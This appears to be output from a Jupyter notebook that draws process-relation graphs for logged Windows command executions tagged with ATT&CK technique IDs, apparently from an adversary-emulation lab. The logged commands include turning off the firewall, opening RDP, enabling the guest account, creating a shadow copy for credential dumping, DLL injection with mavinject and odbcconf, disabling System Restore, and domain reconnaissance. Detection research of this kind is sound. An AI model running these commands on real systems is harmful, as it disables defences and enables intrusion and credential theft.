

 85%|████████▍ | 140/165 [01:41<00:07,  3.48it/s]

Number of relations in the graph: 1
767876 : cmd.exe_/C_wmic_process_call_create_notepad.exe&C:\Windows\system32\cmd.exe&cmd.exe&1136
786743 : wmic__process_call_create_notepad.exe&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&9708
../graph_others2/T1047_09e0f9cf2eb803a1c35deeecf3665fad.png has been generated!
T1047_6935e41353aa781bb723462d26114c44


<Figure size 432x288 with 0 Axes>



 85%|████████▌ | 141/165 [01:41<00:06,  3.63it/s]

Number of relations in the graph: 1
199131 : cmd.exe_/C_wmic_/node:"127.0.0.1"_service_where_(caption_like_"%Spooler%")&C:\Windows\system32\cmd.exe&cmd.exe&6760
93468 : wmic__/node:"127.0.0.1"_service_where_(caption_like_"%Spooler%")&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&660
../graph_others2/T1047_6935e41353aa781bb723462d26114c44.png has been generated!
T1047_b0255b5120cbabc062d8d4510a142c3b


<Figure size 432x288 with 0 Axes>



 86%|████████▌ | 142/165 [01:42<00:06,  3.67it/s]

Number of relations in the graph: 1
490906 : cmd.exe_/C_wmic_useraccount_get_/ALL_/format:csv&C:\Windows\system32\cmd.exe&cmd.exe&10148
329148 : wmic__useraccount_get_/ALL_/format:csv&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&10492
../graph_others2/T1047_b0255b5120cbabc062d8d4510a142c3b.png has been generated!
T1562.004_8d0a4585e7c4646185a912b14cd9cb46


<Figure size 432x288 with 0 Axes>



 87%|████████▋ | 143/165 [01:42<00:06,  3.60it/s]

Number of relations in the graph: 1
722137 : powershell.exe_-ExecutionPolicy_Bypass_-C_"netsh_advfirewall_firewall_add_rule_name=\"Open_Port_to_Any\"_dir=in_protocol=tcp_localport=3389_action=allow_profile=any"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5568
194513 : "C:\Windows\system32\netsh.exe"_advfirewall_firewall_add_rule_"name=Open_Port_to_Any"_dir=in_protocol=tcp_localport=3389_action=allow_profile=any&C:\Windows\system32\netsh.exe&netsh.exe&3404
../graph_others2/T1562.004_8d0a4585e7c4646185a912b14cd9cb46.png has been generated!
T1018_ac20e592bc912bddff4d6b88289095f0


<Figure size 432x288 with 0 Axes>



 87%|████████▋ | 144/165 [01:43<00:08,  2.41it/s]

Number of relations in the graph: 1
157036 : cmd.exe_/C_nltest.exe_/dclist:%userdnsdomain%&C:\Windows\system32\cmd.exe&cmd.exe&2128
658217 : nltest.exe__/dclist:BLUETEAM.COM&C:\Windows\system32\nltest.exe&nltest.exe&5768
../graph_others2/T1018_ac20e592bc912bddff4d6b88289095f0.png has been generated!
T1201_38f6f0e50a6b196140ec40d3dc9cc9e6


<Figure size 432x288 with 0 Axes>



 88%|████████▊ | 145/165 [01:43<00:07,  2.67it/s]

Number of relations in the graph: 1
227731 : cmd.exe_/C_net_accounts_/domain&C:\Windows\system32\cmd.exe&cmd.exe&11112
92779 : net__accounts_/domain&C:\Windows\system32\net.exe&net.exe&2172
../graph_others2/T1201_38f6f0e50a6b196140ec40d3dc9cc9e6.png has been generated!
T1016_14a21534-350f-4d83-9dd7-3c56b93a0c17


<Figure size 432x288 with 0 Axes>



 88%|████████▊ | 146/165 [01:43<00:06,  2.87it/s]

Number of relations in the graph: 1
138019 : powershell.exe_-ExecutionPolicy_Bypass_-C_"nbtstat_-n"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&1420
149401 : "C:\Windows\system32\nbtstat.exe"_-n&C:\Windows\system32\nbtstat.exe&nbtstat.exe&3616
../graph_others2/T1016_14a21534-350f-4d83-9dd7-3c56b93a0c17.png has been generated!
T1562.004_5b93df032e230056c21a3e57334f77d1


<Figure size 432x288 with 0 Axes>



 89%|████████▉ | 147/165 [01:43<00:05,  3.20it/s]

Number of relations in the graph: 1
321518 : cmd.exe_/C_netsh_advfirewall_set_currentprofile_state_off&C:\Windows\system32\cmd.exe&cmd.exe&8612
663140 : netsh__advfirewall_set_currentprofile_state_off&C:\Windows\system32\netsh.exe&netsh.exe&10588
../graph_others2/T1562.004_5b93df032e230056c21a3e57334f77d1.png has been generated!
T1047_ac2764f7a67a9ce92b54e8e59b361838


<Figure size 432x288 with 0 Axes>



 90%|████████▉ | 148/165 [01:44<00:05,  3.39it/s]

Number of relations in the graph: 1
397191 : cmd.exe_/C_wmic_process_get_caption,executablepath,commandline_/format:csv&C:\Windows\system32\cmd.exe&cmd.exe&10376
303536 : wmic__process_get_caption,executablepath,commandline_/format:csv&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&3360
../graph_others2/T1047_ac2764f7a67a9ce92b54e8e59b361838.png has been generated!
T1018_a44bb43474728496276d5d73aa14588f


<Figure size 432x288 with 0 Axes>



 90%|█████████ | 149/165 [01:44<00:04,  3.54it/s]

Number of relations in the graph: 1
611078 : cmd.exe_/C_arp_-a&C:\Windows\system32\cmd.exe&cmd.exe&7408
201616 : arp__-a&C:\Windows\system32\ARP.EXE&ARP.EXE&8764
../graph_others2/T1018_a44bb43474728496276d5d73aa14588f.png has been generated!
T1003.003_f049b89533298c2d6cd37a940248b219


<Figure size 432x288 with 0 Axes>



 91%|█████████ | 150/165 [01:44<00:04,  3.66it/s]

Number of relations in the graph: 1
54935 : cmd.exe_/C_wmic_/node:"localhost"_shadowcopy_call_create_Volume=C:\&C:\Windows\system32\cmd.exe&cmd.exe&8708
289759 : wmic__/node:"localhost"_shadowcopy_call_create_Volume=C:\&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&7152
../graph_others2/T1003.003_f049b89533298c2d6cd37a940248b219.png has been generated!
T1047_ac122553ab4426ea3362bb4a97d31bfd


<Figure size 432x288 with 0 Axes>



 92%|█████████▏| 151/165 [01:44<00:03,  3.76it/s]

Number of relations in the graph: 1
703189 : cmd.exe_/C_wmic_/node:"127.0.0.1"_product_where_"name_like_'Tightvnc%%'"_call_uninstall&C:\Windows\system32\cmd.exe&cmd.exe&5192
85270 : wmic__/node:"127.0.0.1"_product_where_"name_like_'Tightvnc%%'"_call_uninstall&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&8796
../graph_others2/T1047_ac122553ab4426ea3362bb4a97d31bfd.png has been generated!
T1055.002_e5bcefee-262d-4568-a261-e8a20855ec81


<Figure size 432x288 with 0 Axes>



 92%|█████████▏| 152/165 [01:45<00:03,  3.80it/s]

Number of relations in the graph: 1
157277 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$explorer_=_Get-Process_-Name_explorer;mavinject.exe_$explorer.id_C:\Users\Public\sandcat.dll"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&1336
753159 : "C:\Windows\system32\mavinject.exe"_6068_C:\Users\Public\sandcat.dll&C:\Windows\system32\mavinject.exe&mavinject.exe&5468
../graph_others2/T1055.002_e5bcefee-262d-4568-a261-e8a20855ec81.png has been generated!
T1055.001_a74bc239-a196-4f7e-8d5c-fe8c0266071c


<Figure size 432x288 with 0 Axes>



 93%|█████████▎| 153/165 [01:45<00:03,  3.83it/s]

Number of relations in the graph: 1
9863 : powershell.exe_-ExecutionPolicy_Bypass_-C_"odbcconf.exe_/S_/A_{REGSVR_\"C:\Users\Public\sandcat.dll\"}"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5456
103498 : "C:\Windows\system32\odbcconf.exe"_/S_/A_-encodedCommand_UgBFAEcAUwBWAFIAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAFAAdQBiAGwAaQBjAFwAcwBhAG4AZABjAGEAdAAuAGQAbABsACIA_-inputFormat_xml_-outputFormat_text&C:\Windows\system32\odbcconf.exe&odbcconf.exe&6268
../graph_others2/T1055.001_a74bc239-a196-4f7e-8d5c-fe8c0266071c.png has been generated!
T1482_cfb61005899996469ae3023796792ca5


<Figure size 432x288 with 0 Axes>



 93%|█████████▎| 154/165 [01:45<00:02,  3.84it/s]

Number of relations in the graph: 1
775891 : cmd.exe_/C_nltest_/domain_trusts&C:\Windows\system32\cmd.exe&cmd.exe&7380
726404 : nltest__/domain_trusts&C:\Windows\system32\nltest.exe&nltest.exe&11004
../graph_others2/T1482_cfb61005899996469ae3023796792ca5.png has been generated!
T1201_57296a2ddbeb7423c05feef2fe972111


<Figure size 432x288 with 0 Axes>



 94%|█████████▍| 155/165 [01:46<00:02,  3.84it/s]

Number of relations in the graph: 1
222568 : cmd.exe_/C_net_accounts&C:\Windows\system32\cmd.exe&cmd.exe&2328
68443 : net__accounts&C:\Windows\system32\net.exe&net.exe&5128
../graph_others2/T1201_57296a2ddbeb7423c05feef2fe972111.png has been generated!
T1078.001_d0ca00832890baa1d42322cf70fcab1a


<Figure size 432x288 with 0 Axes>



 95%|█████████▍| 156/165 [01:46<00:02,  3.85it/s]

Number of relations in the graph: 1
710942 : cmd.exe_/C_net_user_guest_/active:yes&C:\Windows\system32\cmd.exe&cmd.exe&604
150087 : net__user_guest_/active:yes&C:\Windows\system32\net.exe&net.exe&6440
../graph_others2/T1078.001_d0ca00832890baa1d42322cf70fcab1a.png has been generated!
T1217_f7a0f7d704aa52a764d9d1bee81e65d6


<Figure size 432x288 with 0 Axes>



 95%|█████████▌| 157/165 [01:46<00:02,  3.88it/s]

Number of relations in the graph: 1
603947 : cmd.exe_/C_where_/R_C:\Users\_places.sqlite&C:\Windows\system32\cmd.exe&cmd.exe&9552
187781 : where__/R_C:\Users\_places.sqlite&C:\Windows\system32\where.exe&where.exe&6556
../graph_others2/T1217_f7a0f7d704aa52a764d9d1bee81e65d6.png has been generated!
T1490_2d53d6fabd39bf9c70b0dfcdfbbc926d


<Figure size 432x288 with 0 Axes>



 96%|█████████▌| 158/165 [01:46<00:01,  3.78it/s]

Number of relations in the graph: 1
332710 : cmd.exe_/C_schtasks.exe_/Change_/TN_"\Microsoft\Windows\SystemRestore\SR"_/disable&C:\Windows\system32\cmd.exe&cmd.exe&1368
186435 : schtasks.exe__/Change_/TN_"\Microsoft\Windows\SystemRestore\SR"_/disable&C:\Windows\system32\schtasks.exe&schtasks.exe&4200
../graph_others2/T1490_2d53d6fabd39bf9c70b0dfcdfbbc926d.png has been generated!
T1016_71b3d2945679566b9d94d8cb11df4b70


<Figure size 432x288 with 0 Axes>



 96%|█████████▋| 159/165 [01:47<00:01,  3.89it/s]

Number of relations in the graph: 1
196991 : cmd.exe_/C_netsh_advfirewall_firewall_show_rule_name=all&C:\Windows\system32\cmd.exe&cmd.exe&8792
786105 : netsh__advfirewall_firewall_show_rule_name=all&C:\Windows\system32\netsh.exe&netsh.exe&3896
../graph_others2/T1016_71b3d2945679566b9d94d8cb11df4b70.png has been generated!
T1499_2fe2d5e6-7b06-4fc0-bf71-6966a1226731


<Figure size 432x288 with 0 Axes>



 97%|█████████▋| 160/165 [01:47<00:01,  3.89it/s]

Number of relations in the graph: 1
253734 : powershell.exe_-ExecutionPolicy_Bypass_-C_".\wifi.ps1_-Off"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&7988
165095 : "C:\Windows\system32\netsh.exe"_interface_set_interface_name=Wi-Fi_admin=DISABLED&C:\Windows\system32\netsh.exe&netsh.exe&8260
../graph_others2/T1499_2fe2d5e6-7b06-4fc0-bf71-6966a1226731.png has been generated!
T1018_26c8b8b5-7b5b-4de1-a128-7d37fb14f517


<Figure size 432x288 with 0 Axes>



 98%|█████████▊| 161/165 [01:47<00:01,  3.89it/s]

Number of relations in the graph: 1
517538 : powershell.exe_-ExecutionPolicy_Bypass_-C_"nltest_/dsgetdc:$env:USERDOMAIN"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2452
745604 : "C:\Windows\system32\nltest.exe"_/dsgetdc:BLUETEAM&C:\Windows\system32\nltest.exe&nltest.exe&8720
../graph_others2/T1018_26c8b8b5-7b5b-4de1-a128-7d37fb14f517.png has been generated!
T1057_f8de05d1741dcc468f772ab0ff4dac72


<Figure size 432x288 with 0 Axes>



 98%|█████████▊| 162/165 [01:47<00:00,  3.90it/s]

Number of relations in the graph: 1
327683 : cmd.exe_/C_tasklist&C:\Windows\system32\cmd.exe&cmd.exe&10676
673919 : tasklist&C:\Windows\system32\tasklist.exe&tasklist.exe&4132
../graph_others2/T1057_f8de05d1741dcc468f772ab0ff4dac72.png has been generated!
T1135_deeac480-5c2a-42b5-90bb-41675ee53c7e


<Figure size 432x288 with 0 Axes>



 99%|█████████▉| 163/165 [01:48<00:00,  3.82it/s]

Number of relations in the graph: 1
